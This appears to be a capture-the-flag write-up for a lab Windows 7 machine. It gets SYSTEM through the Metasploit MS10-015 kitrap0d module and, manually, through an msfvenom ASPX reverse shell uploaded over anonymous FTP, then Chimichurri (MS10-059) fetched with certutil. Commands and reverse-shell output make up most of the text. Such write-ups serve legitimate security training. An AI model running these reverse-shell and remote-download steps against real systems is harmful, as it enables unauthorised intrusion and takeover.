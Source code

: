 #kernel #kitrap0d #metasploit #netcat #Chimichurri #MS10-059 #MS10-015 #FTP #python #certutil #msfvenom #Windows #PrivEsc #windows-exploit-suggester 

---

Windows Kernel Exploits - [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

[Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master)
# Detection
- How do we know it is vulnerable to a Kernel Exploit?
	- Well... We don't.. you just assume and try it :)

## Metasploit Method
1. Background the session
	1. `bg session`
2.  Use **MS10-015** kitrap0d exploit
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  11               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.4       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)



View the full module info with the info, or info -d command.
```

Exploited
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.4:5555 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 4068 launched.
[*] Reflectively injecting the DLL into 4068...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 12 opened (10.10.14.4:5555 -> 10.10.10.5:49202) at 2024-10-01 14:46:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

3. User flag - babis
```
c:\Users\babis\Desktop>type user.txt
type user.txt
dc9de1a7dfec1f3f1eafc09aa7ede2ea
```

4. Root flag
```
c:\Users\Administrator\Desktop>type root.txt
type root.txt
56738ddd739b096a539b9256b3abeb12
```

---

## Manual Method

1. Create reverse tcp payload with `msfvenom` 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=5555 -f aspx >manual.aspx
```

2. Use ftp to `PUT` `manual.aspx` payload on `10.10.10.5` server
```
┌──(root㉿kali)-[~]
└─# ftp anonymous@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put manual.aspx 
local: manual.aspx remote: manual.aspx
229 Entering Extended Passive Mode (|||49204|)
150 Opening ASCII mode data connection.
100% |***************************************************************************************************************|  2753       65.63 MiB/s    --:-- ETA
226 Transfer complete.
2753 bytes sent in 00:00 (26.85 KiB/s)
```

3. Create listener on specified port from payload
```
nc -lnvp 5555
```

4. Navigate to url `10.10.10.5/manual.aspx` to catch shell in `nc` 
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49210
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami    
whoami
iis apppool\web
```

5. Find an exploit for PrivEsc
	1. We found one by using `windows-exploit-suggester.py` #windows-exploit-suggester and getting the `systeminfo` from the RHOST saved to a txt file.
	2. It has the ability to automatically download the security bulletin database from Microsoft with the `--update` flag, and saves it as an Excel spreadsheet.
	3. Run the following command to find the exploits to try for PrivEsc
```
$ ./windows-exploit-suggester.py --update
[*] initiating...
[*] successfully requested base url
[*] scraped ms download url
[+] writing to file 2014-06-06-mssb.xlsx
[*] done

$ pip install xlrd --upgrade

$ ./windows-exploit-suggester.py --database xyz --systeminfo xyz_systeminfo.txt
```
- You may get an error saying cannot read Excel file `xls` extension. Issue with `xlrd` version... Try this to fix
```
pip2 uninstall xlrd

pip2 install xlrd==1.2.0
```

- Found exploit that give local system shell, **==MS10-059 (Chimichurri)==**.
- Download `.exe` and start python server to transfer file (`cd` to location of file)
```python3
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.5 - - [01/Oct/2024 15:10:41] "GET /Chimichurri.exe HTTP/1.1" 200 -
```
- On RHOST, used `certutil` to grab file from LHOST
```certutil
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                         
certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                                         
****  Online  ****                                                                                                                                          
CertUtil: -URLCache command completed successfully.  
```

6. Run start `nc` listener for used with `ms.exe` and run `ms.exe`
```nc
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49218
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>whoami
whoami
nt authority\system
```

```Chimichurri
c:\Windows\Temp>ms.exe 10.10.14.4 5555
ms.exe 10.10.14.4 5555
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```